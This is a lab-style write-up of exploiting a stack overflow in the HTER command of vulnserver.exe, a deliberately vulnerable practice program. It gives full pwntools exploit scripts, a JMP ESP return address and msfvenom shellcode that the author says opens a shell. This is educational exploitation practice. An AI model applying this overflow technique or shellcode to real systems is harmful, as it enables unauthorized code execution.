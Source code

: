 ```yaml
---
layout: single
title: Exploiting vulnserver.exe — HTER command using hex characters
excerpt: "In this write-up, I will discuss about attacking HTER command of vulnserver.exe with the use of hex characters."
header:
  teaser: "https://cdn-images-1.medium.com/max/800/1*spTBn2T3ICE8gB41s5CI6A.png"
date: '2020-07-05T14:16:49.264Z'
classes: wide
categories:
- exploitation 
- windows
tags:
- pwn
- windows-exploitation
- jmp-esp
---
```


In this write-up, I will discuss about attacking HTER command of vulnserver.exe with the use of hex characters.

To get started, let’s read the source code of vulnserver.

![](https://cdn-images-1.medium.com/max/800/1*spTBn2T3ICE8gB41s5CI6A.png){: .align-center}

The code tells us that it converts our input `(RecvBuf)` into its `base16` value using `strtoul()` before storing to `HterBuf`, and eventually it passes `HterBuf` to `Function4()`.

This sample code will further explain what really happens during the conversion.

![](https://cdn-images-1.medium.com/max/800/1*QL58sIYS24LcW-5CTJ5X3w.png){: .align-center}

![](https://cdn-images-1.medium.com/max/800/1*xS9_IEwQgZdolR5OE9oqWw.png){: .align-center}

Basically what happens is that our input string is converted as a hex character. This also tells us that our input will be limited only to hex characters (`0 to F`).

Let’s inspect `Function4` to have a better understanding what happens next.

![](https://cdn-images-1.medium.com/max/800/1*92h7F8IEZ_i5gs9oYY5zuw.png){: .align-center}

The contents of `HterBuf` is copied to `Buffer2S` without checking the length. This is where the vulnerability occurs. Since `Buffer2S` can only handle `1000` `bytes` and `HterBuf` does not have a limitation, we can smash the stack by sending a payload greater than `1000 bytes.`

Our initial payload should look like this.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

payload = ""  
payload += "HTER "  
payload += "A"*3000

r.sendline(payload)  
r.close()
```

Sending this payload to `vulnserver` makes the program crash.

Upon checking the registers, it seems that we can now control the instruction pointer.

![](https://cdn-images-1.medium.com/max/800/1*W-uSQI3xdd0rCp61ly8O-w.png){: .align-center}

Based on the source code, our input `“A”*3000` is converted as `0xa * 3000.`

After doing a lot of trials (divide and conquer), I got `2041` as our offset. Sending this payload should overwrite EIP with `BBBBBB.`

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

payload = ""  
payload += "HTER "  
payload += "A"*2041  
payload += "B"*8

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*9NF4iZB02LNLOSupEvqgeQ.png){: .align-center}

We successfully controlled the instruction pointer.

Now, we need to create a str2hex converter.

![](https://cdn-images-1.medium.com/max/800/1*EjCTbk1iv5nlikljCS0hhw.png){: .align-center}

This function will convert our payload to its hex value.

Let’s test this function with our payload.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

def str2hex(val):  
    return(''.join(\[hex(ord(x))\[2:\].rjust(2,'0') for x in val\]))

payload = ""  
payload += "HTER "  
payload += "A"*2041  
payload += str2hex("B"*4)

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*fkL37iRCEyTt6BUzmbK5AA.png){: .align-center}

We have successfully overwritten EIP with `0x42424242`.

Now, let’s try to execute a shellcode after controlling the instruction pointer. Since we can send a large payload, we have a lot of space to work with. We can simply send our payload together with the shellcode and use `JMP ESP` to jump to our shellcode.

First, let’s check if there is an available `JMP ESP` instruction that we can use with the help of mona. We can simply use `!mona jmp -r esp` to get a list of `JMP ESP` instructions.

![](https://cdn-images-1.medium.com/max/800/0*zSH6uWKE0zG-A4HN.png){: .align-center}

We can use `0x625011af` as our `JMP ESP` instruction.

Let’s try to use this together with our converter and jump to our debugger as our shellcode placeholder.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

def str2hex(val):  
    return(''.join([hex(ord(x))[2:].rjust(2,'0') for x in val]))

payload = ""  
payload += "HTER "  
payload += "A"*2041  
payload += str2hex(p32(0x625011af))  
payload += str2hex("\xcc"*10)

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*VyhZ1vbHc2v_8rH8XirJ4g.png){: .align-center}

We have successfully executed our debugger instruction.

Next, we need to generate our `shellcode` and replace our placeholder. We can simply use `msfvenom` for this one.

![](https://cdn-images-1.medium.com/max/800/1*yz7dL_lMW2Hkp0f9OSYHCw.png){: .align-center}

Our final payload script together with the shellcode.

```
from pwn import *

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""
shellcode += b"\xb8\x39\x1b\xb7\x9d\xdb\xd2\xd9\x74\x24\xf4"
shellcode += b"\x5b\x2b\xc9\xb1\x52\x83\xc3\x04\x31\x43\x0e"
shellcode += b"\x03\x7a\x15\x55\x68\x80\xc1\x1b\x93\x78\x12"
shellcode += b"\x7c\x1d\x9d\x23\xbc\x79\xd6\x14\x0c\x09\xba"
shellcode += b"\x98\xe7\x5f\x2e\x2a\x85\x77\x41\x9b\x20\xae"
shellcode += b"\x6c\x1c\x18\x92\xef\x9e\x63\xc7\xcf\x9f\xab"
shellcode += b"\x1a\x0e\xe7\xd6\xd7\x42\xb0\x9d\x4a\x72\xb5"
shellcode += b"\xe8\x56\xf9\x85\xfd\xde\x1e\x5d\xff\xcf\xb1"
shellcode += b"\xd5\xa6\xcf\x30\x39\xd3\x59\x2a\x5e\xde\x10"
shellcode += b"\xc1\x94\x94\xa2\x03\xe5\x55\x08\x6a\xc9\xa7"
shellcode += b"\x50\xab\xee\x57\x27\xc5\x0c\xe5\x30\x12\x6e"
shellcode += b"\x31\xb4\x80\xc8\xb2\x6e\x6c\xe8\x17\xe8\xe7"
shellcode += b"\xe6\xdc\x7e\xaf\xea\xe3\x53\xc4\x17\x6f\x52"
shellcode += b"\x0a\x9e\x2b\x71\x8e\xfa\xe8\x18\x97\xa6\x5f"
shellcode += b"\x24\xc7\x08\x3f\x80\x8c\xa5\x54\xb9\xcf\xa1"
shellcode += b"\x99\xf0\xef\x31\xb6\x83\x9c\x03\x19\x38\x0a"
shellcode += b"\x28\xd2\xe6\xcd\x4f\xc9\x5f\x41\xae\xf2\x9f"
shellcode += b"\x48\x75\xa6\xcf\xe2\x5c\xc7\x9b\xf2\x61\x12"
shellcode += b"\x0b\xa2\xcd\xcd\xec\x12\xae\xbd\x84\x78\x21"
shellcode += b"\xe1\xb5\x83\xeb\x8a\x5c\x7e\x7c\x75\x08\x08"
shellcode += b"\x8a\x1d\x4b\x08\x62\x82\xc2\xee\xee\x2a\x83"
shellcode += b"\xb9\x86\xd3\x8e\x31\x36\x1b\x05\x3c\x78\x97"
shellcode += b"\xaa\xc1\x37\x50\xc6\xd1\xa0\x90\x9d\x8b\x67"
shellcode += b"\xae\x0b\xa3\xe4\x3d\xd0\x33\x62\x5e\x4f\x64"
shellcode += b"\x23\x90\x86\xe0\xd9\x8b\x30\x16\x20\x4d\x7a"
shellcode += b"\x92\xff\xae\x85\x1b\x8d\x8b\xa1\x0b\x4b\x13"
shellcode += b"\xee\x7f\x03\x42\xb8\x29\xe5\x3c\x0a\x83\xbf"
shellcode += b"\x93\xc4\x43\x39\xd8\xd6\x15\x46\x35\xa1\xf9"
shellcode += b"\xf7\xe0\xf4\x06\x37\x65\xf1\x7f\x25\x15\xfe"
shellcode += b"\xaa\xed\x25\xb5\xf6\x44\xae\x10\x63\xd5\xb3"
shellcode += b"\xa2\x5e\x1a\xca\x20\x6a\xe3\x29\x38\x1f\xe6"
shellcode += b"\x76\xfe\xcc\x9a\xe7\x6b\xf2\x09\x07\xbe"

def str2hex(val):  
    return(''.join(\[hex(ord(x))\[2:\].rjust(2,'0') for x in val\]))

payload = ""  
payload += "HTER "  
payload += "A"*2041  
payload += str2hex(p32(0x625011af))  
payload += str2hex("\x90"*50) # NOP SLED  
payload += str2hex(shellcode)

r.sendline(payload)  
r.close()
```

Executing this payload gives us a shell.

![](https://cdn-images-1.medium.com/max/800/1*mgKGtBXzxS_DW37mEb0TBw.png){: .align-center}

— ar33zy
